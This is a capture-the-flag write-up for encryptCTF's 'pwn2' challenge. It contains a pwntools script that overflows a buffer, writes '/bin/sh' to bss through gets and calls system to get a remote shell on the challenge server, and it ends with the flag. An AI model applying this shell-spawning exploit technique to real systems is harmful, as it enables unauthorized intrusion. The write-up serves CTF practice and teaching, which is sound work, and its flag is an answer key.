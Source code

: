 # **pwn2**

#### tag : pwn

-----------------------------------------------

#### Description

>I made a simple shell which allows me to run some specific commands on my server can you test it for bugs?
>
>nc 104.154.106.182 3456
>
>author: codacker

-----------------------------------------------

#### Solution

```python
from pwn import *

r = remote('104.154.106.182', 3456)

gets_plt = 0x080483d0
system_plt = 0x080483f0
bss = 0x804a040
pr = 0x0804839d

# write "/bin/sh\x00" to bss and call system with it
payload = 'a' * 0x2c
payload += p32(gets_plt)
payload += p32(pr)
payload += p32(bss)
payload += p32(system_plt)
payload += 'a' * 4
payload += p32(bss)

r.recvuntil('$ ')
r.sendline(payload)
r.recvuntil('!\n')
r.sendline("/bin/sh\x00")
r.interactive()
```
**encryptCTF{N!c3_j0b_jump3R}**

